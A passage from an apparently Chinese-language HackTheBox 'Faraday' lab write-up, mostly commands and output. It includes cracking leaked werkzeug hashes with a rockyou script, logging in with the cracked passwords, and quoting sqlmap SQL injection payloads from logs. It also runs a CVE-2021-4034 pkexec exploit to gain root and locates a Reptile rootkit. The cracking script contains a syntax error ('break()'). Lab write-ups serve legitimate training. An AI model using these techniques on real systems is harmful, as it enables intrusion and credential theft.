|  6  |   `nobody@gmail.com`   |    nobody     | sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1 |
|  7  |     `end@end.com`      |      end      | sha256$ZK9O08XmvQS7yUxT$ab8718152db6a666a1c696c0fabd0d1dffc8ac3c035025b446a9ad89b6a5dbe2 |
|  8  |  `mauricio@gmail.com`  |   amauricio   | sha256$zlDGBt3wrcdeNnoy$b07122a1146271d3fed91a766981823ba0b83665998fc5f9eb9d823f0ab6e0f8 |
|  9  | `mauricio2@gmail.com`  |     admin     | sha256$x1yTXRJf7lUmsKqC$f792d48616a6206b61572ecb9d42de79615157a7f143db4f77ad5cb4486fe022 |
| 10  |   `admin@gmail.com`    |   mauricio    | sha256$siz5GLNZREmRFSi0$42db32ea6e402dda2cb2f166da353968abec40a606e1fd45cc03c66599b408e1 |
| 11  |     `test@mail.ru`     |     test      | sha256$Vb6xb7xGgcnBEq7B$1540d90dca310622914e0200cbd5c648fee0d954db2cb0279cf44753e502f536 |
| 12  |     `test@htb.com`     |    test123    | sha256$2YzqHS2IjQSNNhAM$b828806ba700907ccaec5a7dc11c6e954bf88f1a1420c2f09d51d12f562787fb |
| 13  |  `123123@123123.com`   |    123123     | sha256$wdfHwGKUjaSoLDZt$97b51fd680f392c2528ad610e0f47a112b15742bce46952601bb5823b1d27b64 |
| 14  | `123123123111@123.com` | 123123123111  | sha256$mXJ8Ayy8Yd9u1bKS$771654b3d3502fa462eeddc565e450f0987665a3c03540a0a39dd4f19e0613f5 |
| 15  |  `abc12345123@a.com`   |  abc12345123  | sha256$PnWSUk3MlMz9urx9$cee45d83952be1658c914ed4316727309e01a61284650ccedaec2ad48cf7bd45 |

结合服务端采用的是

```python
from werkzeug.security import generate_password_hash, check_password_hash
```

于是编写脚本进行爆破

```python
from werkzeug.security import check_password_hash

hashes = open("hashs.txt", "r")

for hash in hashes:
    hash = hash.strip()
    user = hash.split(":")[0]
    hash = hash.split(":")[1]

    with open("/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt", "r", errors="ignore") as file:
        for line in file:
            password = line.strip()
            if check_password_hash(hash, password):
                print(f"Credencial valida: {user}:{password}")
                break()
```

最终得到

```plaintext
pasta:antihacker
pepe:sarmiento
administrator:ihatepasta
octo:octopass
test:test
```

使用 `pasta` 的凭据，成功登录 SSH 服务

```shell
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ pwncat-cs pasta@10.13.37.14
[19:04:27] Welcome to pwncat 🐈!
Password: **********
[19:04:43] 10.13.37.14:22: registered new host w/ db
(local) pwncat$ back
(remote) pasta@erlenmeyer:/home/pasta$ whoami
pasta
```

在当前目录下，发现

```shell
(remote) pasta@erlenmeyer:/home/pasta$ ls -lh
total 24K
-rwxr-xr-x 1 pasta pasta  17K Jul 16  2021 crackme
drwxr-xr-x 3 pasta pasta 4.0K Mar  5 02:10 snap
(remote) pasta@erlenmeyer:/home/pasta$ file crackme
crackme: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f0fa1af64ecc4ee7971bc714797d07ee45b21c06, for GNU/Linux 3.2.0, not stripped
```

将 `crackme` 下载到本地进行逆向分析

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v3; // al
  double v5; // xmm0_8
  double v6; // [rsp+10h] [rbp-48h]
  double v7; // [rsp+18h] [rbp-40h]
  __int128 v8; // [rsp+20h] [rbp-38h] BYREF
  __int64 v9; // [rsp+30h] [rbp-28h]
  double v10; // [rsp+38h] [rbp-20h]
  unsigned __int64 v11; // [rsp+48h] [rbp-10h]

  v11 = __readfsqword(0x28u);
  __printf_chk(1LL, "Insert flag:", envp);
  __isoc99_scanf("%32s", &v8);
  v3 = BYTE3(v10);
  HIWORD(v9) = __ROL2__(HIWORD(v9), 8);
  BYTE3(v10) = HIBYTE(v10);
  HIBYTE(v10) = v3;
  if (v8 == __PAIR128__(0x405F336C62753064LL, 0x7B59414441524146LL) && LOBYTE(v10) == 95 && v9 == 0x40746F31665F646ELL )
  {
    v6 = v10;
    v7 = *((double *)&v8 + 1);
    __printf_chk(1LL, "x: %.30lf\n", *((double *)&v8 + 1));
    __printf_chk(1LL, "y: %.30lf\n", 326.9495605207693);
    __printf_chk(1LL, "z: %.30lf\n", v6);
    v5 = v7 * 326.9495605207693 * (v7 * 326.9495605207693) / v6;
    round_double(v5, 30);
    __printf_chk(1LL, "%.30lf\n", v5);
    round_double(v5, 30);
    if (fabs(v5 - 4088116.817143337) >= 0.0000001192092895507812 )
      puts("Try Again");
    else
      puts("Well done!");
  }
  return 0;
}
```

在其中看到一部分十六进制数据，将其转换为 Char 对象

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v3; // al
  double v5; // xmm0_8
  double v6; // [rsp+10h] [rbp-48h]
  double v7; // [rsp+18h] [rbp-40h]
  __int128 v8; // [rsp+20h] [rbp-38h] BYREF
  __int64 v9; // [rsp+30h] [rbp-28h]
  double v10; // [rsp+38h] [rbp-20h]
  unsigned __int64 v11; // [rsp+48h] [rbp-10h]

  v11 = __readfsqword(0x28u);
  __printf_chk(1LL, "Insert flag:", envp);
  __isoc99_scanf("%32s", &v8);
  v3 = BYTE3(v10);
  HIWORD(v9) = __ROL2__(HIWORD(v9), 8);
  BYTE3(v10) = HIBYTE(v10);
  HIBYTE(v10) = v3;
  if (v8 == __PAIR128__('@_3lbu0d', '{YADARAF') && LOBYTE(v10) == 95 && v9 == '@to1f_dn' )
  {
    v6 = v10;
    v7 = *((double *)&v8 + 1);
    __printf_chk(1LL, "x: %.30lf\n", *((double *)&v8 + 1));
    __printf_chk(1LL, "y: %.30lf\n", COERCE_DOUBLE('@to1f_dn'));
    __printf_chk(1LL, "z: %.30lf\n", v6);
    v5 = v7 * 326.9495605207693 * (v7 * 326.9495605207693) / v6;
    round_double(v5, 30);
    __printf_chk(1LL, "%.30lf\n", v5);
    round_double(v5, 30);
    if (fabs(v5 - 4088116.817143337) >= 0.0000001192092895507812 )
      puts("Try Again");
    else
      puts("Well done!");
  }
  return 0;
}
```

那么就可以得到前半部分的 flag

```plaintext
FARADAY{d0ubl3_@nd_f1o@t_
```

后半部分可以通过爆破双精度对象来得到

```python
from itertools import product
import struct, string

flag = ""

characters = string.ascii_lowercase + string.punctuation

for combination in product(characters, repeat=5):
    chars = "".join(combination).encode()
    value = b"_" + chars[:2] + b"}" + chars[2:] + b"@"
    result = 1665002837.488342 / struct.unpack("d", value)[0]

    if abs(result - 4088116.817143337) <= 0.0000001192092895507812:
        value = chars[:2] + b"@" + chars[2:] + b"}"
        print(flag + value.decode())
        break
# be@uty}
```

```plaintext title="Flag"
FARADAY{d0ubl3_@nd_f1o@t_be@uty}
```

## Careful read

在上文中，我们还得到了一个凭据 `administrator:ihatepasta`

尝试连接

```shell
(local) pwncat$ connect administrator@10.13.37.14
Password: **********
[19:17:28] 10.13.37.14:22: loaded known host from db
(local) pwncat$ back
(remote) administrator@erlenmeyer:/home/administrator$ whoami
administrator
(remote) administrator@erlenmeyer:/home/administrator$ ls -lah
total 52K
drwxr-xr-x 3 administrator administrator 4.0K Sep 14  2021 .
drwxr-xr-x 5 root          root          4.0K Jul 20  2021 ..
lrwxrwxrwx 1 root          root             9 Sep 14  2021 .bash_history -> /dev/null
-rw-r--r-- 1 administrator administrator  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 administrator administrator 3.8K Jul 22  2021 .bashrc
drwx------ 2 administrator administrator 4.0K Jul 16  2021 .cache
-rw-r--r-- 1 administrator administrator  807 Feb 25  2020 .profile
-rw-r--r-- 1 administrator administrator   65 Jul 22  2021 .pythonrc
-rw-r--r-- 1 administrator administrator    0 Jul 22  2021 .sudo_as_admin_successful
-rwxr-xr-- 1 root          root           23K Jul 21  2021 tcp-server
```

在探测环境时，发现 `administrator` 有权限访问 apache 的日志

```shell
(remote) administrator@erlenmeyer:/home/administrator$ find / -user administrator 2>/dev/null | grep -vE "/proc|/sys|/home|/run"
/dev/pts/1
/var/mail/administrator
/var/log/apache2/access.log
```

在日志文件中发现大量的 sql 注入痕迹

```shell
7 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3004140 192.168.86.1 - - [20/Jul/2021:05:44:30 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E16%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3004752 192.168.86.1 - - [20/Jul/2021:05:44:33 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E24%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3011828 192.168.86.1 - - [20/Jul/2021:05:44:36 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E28%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3003759 192.168.86.1 - - [20/Jul/2021:05:44:39 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E30%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3004110 192.168.86.1 - - [20/Jul/2021:05:44:42 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E31%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4209 192.168.86.1 - - [20/Jul/2021:05:44:45 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%21%3D32%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3005636 192.168.86.1 - - [20/Jul/2021:05:44:45 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E64%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3460 192.168.86.1 - - [20/Jul/2021:05:44:48 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E96%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3003961 192.168.86.1 - - [20/Jul/2021:05:44:48 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E80%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4347 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E88%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
5354 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E84%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3005380 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E82%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3655 192.168.86.1 - - [20/Jul/2021:05:44:54 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E83%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4992 192.168.86.1 - - [20/Jul/2021:05:44:54 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%2^C
```

对日志文件进行分析，将攻击者的注入流量进行提取

```python
import re, urllib.parse

with open("/var/log/apache2/access.log") as file:
    for line in file:
        line = urllib.parse.unquote(line)
        if not "update.php" in line:
            continue
        regex = re.search("\)\)!=(\d+)", line)
        if regex:
            decimal = int(regex.group(1))
            print(chr(decimal), end="")
# ......
# FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}
```

```plaintext title="Flag"
FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}
```

## Administrator Privesc

根据题目名称，猜测要开始进行提权

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/snap/core18/2074/bin/mount
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2074/usr/lib/openssh/ssh-keysign
/snap/core18/1944/bin/mount
/snap/core18/1944/bin/ping
/snap/core18/1944/bin/su
/snap/core18/1944/bin/umount
/snap/core18/1944/usr/bin/chfn
/snap/core18/1944/usr/bin/chsh
/snap/core18/1944/usr/bin/gpasswd
/snap/core18/1944/usr/bin/newgrp
/snap/core18/1944/usr/bin/passwd
/snap/core18/1944/usr/bin/sudo
/snap/core18/1944/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1944/usr/lib/openssh/ssh-keysign
/snap/snapd/12398/usr/lib/snapd/snap-confine
/snap/snapd/12704/usr/lib/snapd/snap-confine
/usr/bin/umount
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/at
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
```

在其中注意到 `/usr/bin/pkexec` 文件，尝试通过 CVE-2021-4034 利用

```shell
(remote) administrator@erlenmeyer:/home/administrator$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[-] GCONV_PATH=. directory already exists, continuing.
[-] exploit directory already exists, continuing.
[+] Calling execve()
# bash
root@erlenmeyer:/home/administrator# cd /root
root@erlenmeyer:/root# ls -lh
total 15M
-rw-r----- 1 root administrator  14M Sep 13  2021 access.log
-rw-r--r-- 1 root root          9.3K Jul 20  2021 chkrootkit.txt
drwxr-xr-x 2 root root          4.0K Jul 21  2021 exploitme
-rw-r--r-- 1 root root            40 Jul 22  2021 flag.txt
drwxr-xr-x 4 root root          4.0K Jul 16  2021 snap
drwxr-xr-x 4 root root          4.0K Jul 16  2021 web
root@erlenmeyer:/root# cat flag.txt
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
```

```plaintext title="Flag"
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
```

## Hidden pasta

根据之前的端口扫描得到的信息，端口 `8888` 还没有利用过，使用上文得到的凭据尝试连接，成功得到

```shell
┌──(randark ㉿ kali)-[~]
└─$ nc 10.13.37.14 8888
Welcome to FaradaySEC stats!!!
Username: pasta
Password: antihacker
access granted!!!
FARADAY{C_1s-0ld-Bu7_n0t-0bs0|3te}
```

```plaintext title="Flag"
FARADAY{C_1s-0ld-Bu7_n0t-0bs0|3te}
```

## Root KIt

结合题目的名字，以及在 `/root` 目录下发现的

```shell
(remote) root@erlenmeyer:/root# ls -lah
total 15M
drwx------  7 root root          4.0K Sep 14  2021 .
drwxr-xr-x 21 root root          4.0K Sep 14  2021 ..
-rw-r--r--  1 root root          3.1K Jul 22  2021 .bashrc
drwx------  2 root root          4.0K Sep  2  2021 .cache
-rw-r--r--  1 root root           176 Jul 16  2021 .profile
-rw-r--r--  1 root root            65 Jul 22  2021 .pythonrc
drwx------  2 root root          4.0K Jul 16  2021 .ssh
-rw-r-----  1 root administrator  14M Sep 13  2021 access.log
-rw-r--r--  1 root root          9.3K Jul 20  2021 chkrootkit.txt
drwxr-xr-x  2 root root          4.0K Jul 21  2021 exploitme
-rw-r--r--  1 root root            40 Jul 22  2021 flag.txt
drwxr-xr-x  4 root root          4.0K Jul 16  2021 snap
drwxr-xr-x  4 root root          4.0K Jul 16  2021 web
(remote) root@erlenmeyer:/root# cat chkrootkit.txt
ROOTDIR is `/'
Checking `amd'...                                           not found
Checking `basename'...                                      not infected
Checking `biff'...                                          not found
Checking `chfn'...                                          not infected
Checking `chsh'...                                          not infected
Checking `cron'...                                          not infected
Checking `crontab'...                                       not infected
......
Searching for Reptile Rootkit...                            found it
......
```

可以表明靶机上存在 [Github - f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)

可以使用以下指令，实现对硬盘的提取与挂载，从而可以找到 `Reptile` 的实际部署位置为 `/reptileRoberto`

```shell
sudo losetup /dev/loop10 sda3.image
sudo kpartx -a /dev/loop10
sudo vgdisplay -v | grep "LV Path"
......
mount /dev/ubuntu-vg/ubuntu-lv /mnt/
```

进入 `Reptile` 的实际部署位置

```shell
(remote) root@erlenmeyer:/# /reptileRoberto/reptileRoberto_cmd show
Success!
(remote) root@erlenmeyer:/# ls -lh /reptileRoberto/
total 140K
-rwxr-xr-x 1 root root  42K Jul 20  2021 reptileRoberto
-rwxrwxrwx 1 root root  15K Jul 20  2021 reptileRoberto_cmd
-rw-r--r-- 1 root root   41 Jul 20  2021 reptileRoberto_flag.txt
-rwxrwxrwx 1 root root 2.5K Jul 20  2021 reptileRoberto_rc
-rwxrwxrwx 1 root root  67K Jul 20  2021 reptileRoberto_shell
-rwxrwxrwx 1 root root  667 Jul 20  2021 reptileRoberto_start
(remote) root@erlenmeyer:/# cat /reptileRoberto/reptileRoberto_flag.txt
FARADAY{__LKM-is-a-l0t-l1k3-an-0r@ng3__}
```

```plaintext title="Flag"
FARADAY{__LKM-is-a-l0t-l1k3-an-0r@ng3__}
```
